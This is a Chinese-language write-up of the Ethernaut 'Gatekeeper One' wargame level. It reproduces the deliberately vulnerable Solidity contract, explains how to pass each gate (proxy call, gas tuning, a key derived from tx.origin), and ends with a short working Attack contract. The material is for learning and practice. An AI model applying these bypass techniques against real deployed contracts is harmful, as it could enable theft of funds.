 # Gatekeeper One

> 越过守门人并且注册为一个参赛者来完成这一关.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 攻击思路

- 对于gateOne，用合约进行代理调用即可。

- 对于gateTwo，保证gasleft取到的gas值为8191的整数倍即可，可以在合约调用时调整call时的gas值。

  在本地调用GatekeeperOne ，debug调试，查看mod运算时的gasleft是多少

  ![image-20220601155745582](./gasleft.png)

  可以看到mod时，gasleft == 81656，（初始gas == 81910）。所以只需要81910+（81910 - 81656）== 82164

- 对于gateThree，EVM是栈虚拟机，采用大端模式。
  - 对于gateThree part one，保证后4位与后8位转为数字后相同，即为0000abcd。
  - 对于gateThree part two，保证后8位与全16位转为数字后不同，即前8位与后8为不同，即为efgh00000000abcd。
  - 对于gateThree part three，保证账户（tx.origin）的后4位与后8位转为数字后相同，账户后4位为：85d1。即abcd = 85d1（另外：efgh != abcd = 85d1）
  - 综上， _gateKey为 0x33000000000085d1

理论已有，开始实践。

## 攻击代码

```solidity
contract Attack {
    
    GatekeeperOne constant private target = GatekeeperOne(0x341C80357A52Eb142543bBF1F817E92ab29f9Fda);

    function attack() public {
        bytes8 _gateKey = 0x33000000000085d1;
        target.enter{gas:82164}(_gateKey);
    }

}
```


